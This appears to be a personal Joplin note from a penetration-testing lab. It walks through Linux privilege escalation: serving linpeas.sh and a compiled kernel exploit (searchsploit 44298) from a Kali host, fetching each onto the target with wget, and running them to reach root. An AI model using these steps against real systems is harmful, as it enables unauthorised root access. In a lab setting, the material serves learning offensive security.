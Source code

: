 Privilege Escalation

Privilege Escalation

# Works
1. On Kali machine, go to the directory where linpeas.sh is stored, then create a python server
`python -m SimpleHTTPServer 5678`
![602ce5fd02a506063ac8ffe28c0703ca.png](:/3a97b61490234990a7405c9d71a06538)

2. On the target, download linpeas.sh to the target's /tmp directory using wget
`wget http://192.168.119.214:5678/linpeas.sh /tmp`
![c1c55ed2ebdb3d6287fb961fd5b9d37c.png](:/cf8c5c925ead43d0994c4cd9fb8a5448)

3. Notice that the netcat listener on Kali should show the GET request from the target 
![bf23de88ba4c3b82e509e5dc2891e9fa.png](:/450592bdb87f44dcb746bcc3fd91e260)

4. Change the permissions so that linpeas.sh can be executed
`chmod +x linpeas.sh`
![18aff38436cae8ac49a7848fcb75a24b.png](:/25ddb6396d1d46b4b0dc6552fe2e3c09)

5. Run linpeas.sh and redirect to a file.
`./linpeas.sh > linout.txt`
![ede281227540c1b7ccddeea1ffcddaa0.png](:/7a9fad693a81410aaf7b93470470155d)

6. The first item that absolutely must be looked at is the OS. It is Linux version 4.4.0-116-generic.
![2ba16b0aa67ba4c3ef9eaa0eefb6e76e.png](:/d8cfddb2e2d04654b528ec8218c8fa28)

7. Searchsploit 'Ubuntu 4.4.0-116' and download
`searchsploit ubuntu 4.4.0-116`
`searchsploit -m 44298`
8. Compile the exploit
`gcc 44298.c -o exploit`
![79c189655ceb919ca06edcf0d60a1b16.png](:/a015f3a2a8a34455b862cfba9cc3c5f7)

9. Run the python simple server command in the directory where the compiled exploit is located
`python -m SimpleHTTPServer 5678`
![40c7c5ea352a0ed94070ef60c2b4b64b.png](:/87e53c6b94e741c19eb6f1bcffa8ef4f)

10. From the target, download the exploit using wget
`wget http://192.168.119.214:5678/exploit`
![3cc4066727d728acb552d2fc52b0fcf1.png](:/531530cd83e04abaadb0f27e4f59c215)

11.Change the permissions to make it executable
`chmod +x exploit`
![4fc76b88ed9f7b2bf8550c8f761a0b68.png](:/6443b2e2f55c4ed6b03532bc2cac0098)

12. Run the exploit, we are now root!
`./exploit`
![9569cfc74dfa7307fdbc1dabdd0b8d53.png](:/10c11b6c93674b2d885726b26cdf6d8c)











id: 2472c9451d004354ac442c0c5a9fb351
parent_id: ea5315131b95448aa248c85c1b717231
created_time: 2020-08-25T10:38:10.552Z
updated_time: 2020-08-26T08:32:35.473Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-08-25T10:38:10.552Z
user_updated_time: 2020-08-26T08:32:35.473Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1
